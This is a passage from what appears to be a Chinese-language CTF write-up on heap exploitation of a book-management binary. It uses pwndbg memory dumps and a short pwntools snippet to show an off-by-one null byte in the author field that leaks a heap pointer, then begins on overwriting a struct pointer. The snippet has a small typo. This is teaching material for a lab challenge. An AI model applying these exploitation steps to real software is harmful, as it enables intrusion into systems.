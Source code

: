至于为什么这么输，之后再说。

Ctrl+c回到调试界面。

book结构体的指针放在off_202010，查看下off_202010

```
pwndbg> x/16gx 0x555555756010
0x555555756010:	0x0000555555756060//地址	0x0000555555756040
0x555555756020:	0x0000000200000000	0x0000000000000000
0x555555756030:	0x0000000000000000	0x0000000000000000
0x555555756040:	0x6161616161616161	0x6161616161616161
0x555555756050:	0x6161616161616161	0x6161616161616161
0x555555756060:	0x0000555555757760	0x0000555555757790 <= 存放的结构体的起始地址
0x555555756070:	0x0000000000000000	0x0000000000000000
0x555555756080:	0x0000000000000000	0x0000000000000000
```

`0x0000555555756060`存放的是book1结构体的起始地址，

`0x0000555555757768`存放的是book1结构体的起始地址。

作者名与book结构体指针相连，输入32字节数据后会导致book结构体地址的低位被覆盖为`\x00`，由于printf打印内容时，遇到\x00停止，因此会将book1 的结构体地址打印出来，

```
pwndbg> c
Continuing.
4
ID: 1
Name: book1_name
Description: book1_desc
Author: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa`wuUUU
ID: 2
Name: book2_name
Description: book2_desc
Author: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa`wuUUU
```

其中`0x0000555555757760`即对应\`wuUUU。

payload：

```python
p.senline("4")
p.recvuntil("Author: ")
p.recv(32)
book1_addr = u64(p.recv(6)+'\x00\x00')
```

#### 3.覆盖原有的结构体指针

```
pwndbg> x/32gx 0x0000555555757760
0x555555757760:	0x0000000000000001	0x0000555555757670#book1
0x555555757770:	0x0000555555757690	0x00000000000000c8#book1
0x555555757780:	0x0000000000000000	0x0000000000000031#book1
0x555555757790:	0x0000000000000002	0x00007ffff7fbe010#book2
0x5555557577a0:	0x00007ffff7f9c010	0x0000000000021000#book2
0x5555557577b0:	0x0000000000000000	0x0000000000020851#book2
```
